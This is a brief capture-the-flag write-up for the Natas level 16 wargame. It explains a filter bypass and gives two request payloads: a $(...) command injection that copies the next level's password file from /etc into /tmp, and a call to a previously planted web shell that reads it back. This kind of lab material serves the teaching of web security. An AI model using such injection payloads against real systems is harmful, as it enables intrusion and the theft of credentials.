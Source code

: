 #natas 16
many characters are filtered now: '/[;|&\`\\'"]/'
even though backticks are filtered, $ and () are not, so we can open a subshell that way.
simply cat the next webpass into a tmp file and read it with natas12 or 13's rce

```
?needle=$(cat+/etc/natas_webpass/natas17+>+/tmp/wwwgreatwww)&submit=Search
```
```
/upload/whatever.php?a=cat%20/tmp/wwwgreatwww
```
